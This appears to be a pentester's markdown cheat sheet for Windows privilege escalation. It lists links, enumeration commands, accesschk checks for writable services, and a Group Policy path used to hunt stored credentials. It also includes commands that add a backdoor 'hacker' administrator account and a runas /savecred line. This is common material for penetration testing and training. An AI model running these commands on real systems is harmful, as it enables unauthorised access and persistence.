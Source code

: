 # Windows priv esc

## LINKS

* https://xapax.gitbooks.io/security/content/privilege_escalation_windows.html << CHECK THIS
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* https://xor.cat/2017/09/05/sysinternals-accesschk-accepteula/
* https://support.microsoft.com/en-us/help/251192/how-to-create-a-windows-service-by-using-sc-exe


## Who are you, are you system ?
echo %username%
net user <user>

## what users on the system?
net users
net localgroups

## What is the windows version?
EULA.txt, sysinfo

## Can you add an admin user?
net users hacker pass /add
net localgroup administrators hacker /add

## Firewall
netsh firewall show state
netsh firewall show config

## can we runas ?
https://ss64.com/nt/runas.html
This was working on a machine : 

```
runas /user:administrator /savecred "c:\users\security\downloads\wsrt.exe"
```

## powersploit
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

## Group policies ?
C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Group

## Can we remplace a service?
Uee accesschk to search writables services
accesschk.exe -uwcqv "testuser" * 

## What services are accessible from inside?
netstat -aon

## Is there any useful tool?
python, perl, ...

## What programs are installeds?
dir c:\prograam files

search for local exploits on this programs

## what on users homes?
any useful info?

